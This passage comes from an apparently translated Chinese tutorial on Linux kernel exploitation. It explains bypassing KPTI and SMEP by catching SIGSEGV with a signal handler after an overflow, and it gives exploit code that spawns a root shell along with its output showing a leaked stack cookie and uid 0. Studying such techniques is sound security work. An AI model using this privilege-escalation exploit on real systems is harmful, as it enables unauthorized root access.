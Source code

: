 > 上面用于KPTI的payload模式可以用于也可以用于绕过smep，并且一般smep和KPTI都会一起出现再加上该payload的精简，所以这个payload是更为推荐使用的

### <a class="reference-link" name="Signal%20Handler"></a>Signal Handler

这种方法就比较巧妙了，利用signal handler处理原exp从内核态返回时发生的**segment fault**。我的理解是提前在程序中注册对`SIGSEGV`的处理函数，那么在原exp返回时遇到该错误将会由**内核控制程序状态的切换**并最终`正常的(内核自己完成CR3切换)`返回到消息处理函数，也就不需要我们用rop去完成了。因为cred结构体早就改好了(译者的粗略理解原文作者没作解释，如果有大佬知道还请详解)

**<a class="reference-link" name="Exp"></a>Exp**

```
void signal_shell(int signum)`{`
    printf("signal %d catched successfully!\n", signum);
    puts("[*] Return to userland");
    if(getuid() == 0)`{`
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    `}`
    else`{`
        printf("[!] UID: %d, do not get root\n",getuid());
        exit(-1);
    `}`
`}`
int main()
`{`
    save_state();
    open_dev();
    leak();
    build_fake_stack();
    signal(SIGSEGV, signal_shell);
    overflow_nx3();
    puts("[!] Should never be reached");
    printf("Hello Kernel");
    return 0;
`}`
/*
/ $ ./exploit 
[*] Saved state
[*] Opened device

[*] Leaked 160 bytes
[*] Cookie: 170a0b1ebc645300
[*] Build fake stack start
[*] Prepared payload
signal 11 catched successfully!
[*] Return to userland
[*] UID: 0, got root!
/ # ls
*/
```

